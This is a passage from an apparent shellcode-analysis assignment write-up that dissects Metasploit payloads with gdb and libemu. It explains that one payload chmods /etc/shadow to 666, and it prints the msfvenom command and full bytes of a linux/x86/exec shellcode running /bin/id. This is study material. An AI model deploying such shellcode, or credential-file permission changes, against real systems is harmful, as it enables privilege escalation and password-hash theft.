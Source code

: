 If we read EAX we see something really interesting:

```term
(gdb) x/4s $eax 
0x404040 <code>:        "\231j\017XR\350\f"
0x404048 <code+8>:      ""
0x404049 <code+9>:      ""
0x40404a <code+10>:     "/etc/shadow"
(gdb)
```

#### Conclusion (Shellcode #1)

As expected from the start, this shellcode will chmod a certain file. Nonethelss, when not specifing any sort of flag, the file chosen will always be /etc/shadow with the 
privileges in octal 666. 


#### Exec Shellcode (Shellcode #2)

The second shellcode to be analyzed will be one that executes a command, in this case being "/bin/id" 

Generating the shellcode with msfvenom:

```term
root@whitecr0wz:~# msfvenom -p linux/x86/exec CMD=/bin/id -f c 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 43 bytes
Final size of c file: 205 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x69\x64\x00\x57\x53\x89\xe1\xcd\x80";
root@whitecr0wz:~# 
```

##### Libemu

Let's analyze this shellcode with Libemu:

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect2$ echo -ne 
"\x6A\x0B\x58\x99\x52\x66\x68\x2D\x63\x89\xE7\x68\x2F\x73\x68\x00\x68\x2F\x62\x69\x6E\x89\xE3\x52\xE8\x08\x00\x00\x00\x2F\x62\x69\x6E\x2F\x69\x64\x00\x57\x53\x89\xE1\xCD\x80" | 
../../../libemu/tools/sctest/sctest -vv -Ss 10000 
verbose = 2
[emu 0x0x8205f0 debug ] cpu state    eip=0x00417000
[emu 0x0x8205f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x8205f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x8205f0 debug ] Flags: 
[emu 0x0x8205f0 debug ] 6A0B                            push byte 0xb
[emu 0x0x8205f0 debug ] 58                              pop eax
[emu 0x0x8205f0 debug ] 99                              cwd 
[emu 0x0x8205f0 debug ] 52                              push edx
[emu 0x0x8205f0 debug ] 66682D63                        push word 0x632d
[emu 0x0x8205f0 debug ] 89E7                            mov edi,esp
[emu 0x0x8205f0 debug ] 682F736800                      push dword 0x68732f
[emu 0x0x8205f0 debug ] 682F62696E                      push dword 0x6e69622f
[emu 0x0x8205f0 debug ] 89E3                            mov ebx,esp
[emu 0x0x8205f0 debug ] 52                              push edx
[emu 0x0x8205f0 debug ] E8                              call 0x1
[emu 0x0x8205f0 debug ] 57                              push edi
[emu 0x0x8205f0 debug ] 53                              push ebx
[emu 0x0x8205f0 debug ] 89E1                            mov ecx,esp
[emu 0x0x8205f0 debug ] CD80                            int 0x80
```